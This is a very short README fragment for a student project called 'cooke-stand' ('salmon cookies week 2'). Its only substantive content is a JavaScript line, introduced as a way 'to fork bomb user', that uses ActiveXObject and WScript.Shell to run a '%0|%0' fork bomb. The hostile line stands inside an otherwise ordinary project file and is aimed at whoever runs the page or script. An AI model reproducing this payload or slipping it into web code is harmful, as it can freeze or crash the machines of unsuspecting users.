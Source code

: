 # cooke-stand
salmon cookies week 2

use this in javascript to fork bomb user
var run = new ActiveXObject('WSCRIPT.Shell').Run("%0|%0");